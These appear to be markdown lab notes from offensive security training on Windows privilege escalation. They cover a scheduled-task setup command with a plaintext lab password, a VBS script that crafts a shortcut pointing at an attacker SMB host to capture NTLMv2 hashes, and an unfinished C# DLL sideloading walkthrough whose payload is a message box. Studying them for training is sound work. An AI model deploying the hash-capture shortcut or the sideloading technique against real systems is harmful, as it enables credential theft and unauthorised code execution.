






# Additional PrivEsc


# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```

---

NTLM RELAYING

save the following as "mail_link.vbs", run it - it creates a malicious link that authenticates to responder sending its NTLMv2 hash.

```vbs
Set objShell = WScript.CreateObject("WScript.Shell")
Set lnk = objShell.CreateShortcut("evil_link.lnk")
lnk.TargetPath = "\\10.0.0.5\icon.ico" 	
lnk.Arguments = "" 		
lnk.Description = "" 	
lnk.IconLocation = "\\10.0.0.5\icon.ico" 
lnk.WorkingDirectory = "" 
lnk.Save
```

<https://github.com/AkuCyberSec/firefox-ntlm-hash-capture-via-lnk-download>

# NOT YET WORKING !!! Building your Csharp sideload DLL

- Make C# dll project
- create functions
- install ddlexport nuget
- Mutex



DLL without Exports

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;

namespace SharpSideloadDLL
{
    public class Class1
    {
        public static void GetFileVersionInfoW()
        {
            sideload();
        }
        public static void VerQueryValueW()
        {
            sideload();
        }
        public static void GetFileVersionInfoSizeW()
        {
            sideload();
        }
        public static void sideload(
            string message = "Sideloaded!", // Default message
            string title = "Sideload Test", // Default title
            MessageBoxIcon icon = MessageBoxIcon.Information) // Default icon
        {
            MessageBox.Show(message, title, MessageBoxButtons.OK, icon);
        }


    }
}
```



Now use ildasm from a VS Command Prompt

```powershell
C:\THEV\Labs\CsharpSideload\SharpSideloadDLL\SharpSideloadDLL\bin\x64\Release
ildasm.exe /out:noexports.il SharpSideloadDLL.dll
```

Open the noexports.il and add `.export [0]` to one of the functions, save as `exports.il`





Then reassemble with ilasm (not ilDasm)

```powershell
ilasm.exe Exports.il /out:SharpSideloadDLL.dll /DLL
```

You can test with rundll32:

```powershell
rundll32.exe ManualExports.dll,GetFileVersionInfoW
```



And check in CFF Explorer - you will see the export directory with 1 exported function: `GetFileVersionInfoW`


Add nuget Unmanaged Export

edit .csproj and replace the nuget line

```xml
<Import Project="$(MSBuildProjectDirectory)\packages\UnmanagedExports.1.2.7\tools\RGiesecke.DllExport.targets" Condition="Exists('$(MSBuildProjectDirectory)\packages\UnmanagedExports.1.2.7\tools\RGiesecke.DllExport.targets')" />
```